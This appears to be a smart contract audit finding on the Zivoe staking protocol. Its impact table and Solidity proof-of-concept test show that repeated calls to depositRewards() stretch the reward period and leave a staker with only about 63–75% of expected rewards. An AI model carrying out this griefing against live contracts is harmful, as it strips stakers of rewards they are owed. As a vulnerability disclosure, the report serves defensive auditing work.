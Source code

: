 Also note that delayed staking rewards will likely happen accidently with any user able to call `OCE_ZVE::forwardEmissions()` which subsequently makes calls to `ZivoeRewards::depositRewards()` with `ZVE` as the `_rewardsToken`.

## Impact

The table below shows the percentage of staking rewards a user will be able to claim after the full `rewardsDuration` has elapsed with a malicious user repeatedly calling `ZivoeRewards::depositRewards()`. 

Note this was modelled for simplicitly, but malicious calls to `ZivoeRewards::depositRewards()` do not need to be at consistent intervals.

| Malicious Calls to depositRewards()     | Staker Rewards as a % of their expected rewards |
|-----------------------------------------|-------------|
| None                       | 99.99%      |
| extra deposit after 15 days             | 74.99%      |
| 2 extra deposits, each after 10 days    | 70.37%      |
| 5 extra deposits, each after 6 days     | 67.23%      |
| deposit every single day                | 63.83%      |
| deposit every single hour               | 63.23%      |
| deposit every single minute             | 63.21%      |


## Code Snippet

POC - Paste this test into `Test_ZivoeRewards.sol`. The test shows a single extra call to `ZivoeRewards::depositRewards()` resulting in a staker being only able to claim 75% of their expected rewards after the full `rewardsDuration` has elapsed.

```javascript
    function test_Audit_ExtraDeposit_Scenario1() public {
        uint256 stakeAmount = 1000e18;
        uint256 rewardAmount = 100e18;
        uint256 startTs = block.timestamp;

        // 1. Jim stakes their 1k tokens
        assert(jim.try_approveToken(address(ZVE), address(stZVE), stakeAmount));
        jim.try_stake(address(stZVE), stakeAmount);

        // 2. Bob deposits DAI into stZVE, triggering a 30 day unlock period for stakers
        depositReward_DAI(address(stZVE), rewardAmount);

        // 3. Extra deposit(s) occur
        hevm.warp(block.timestamp + 15 * 86400);
        depositReward_DAI(address(stZVE), 1);
        hevm.warp(block.timestamp + 15 * 86400);
        
        // 4. 30 days has passed since initial reward was allocated, Jim calls getRewards()
        assert(block.timestamp == startTs + 30 * 86400);
        uint256 jimPreClaimBalance = IERC20(DAI).balanceOf(address(jim));
        assert(jim.try_getRewards(address(stZVE)));
        uint256 jimPostClaimBalance = IERC20(DAI).balanceOf(address(jim));
        assert(jimPostClaimBalance - jimPreClaimBalance < rewardAmount); // Jim would reasonably expect to claim close to 100e18 being the only staker, but can only claim ~ 75e18 due to the periodFinish being extended. 
        //console2.log("Percent claim: ", BIPS * (jimPostClaimBalance - jimPreClaimBalance) / rewardAmount);
    }
```
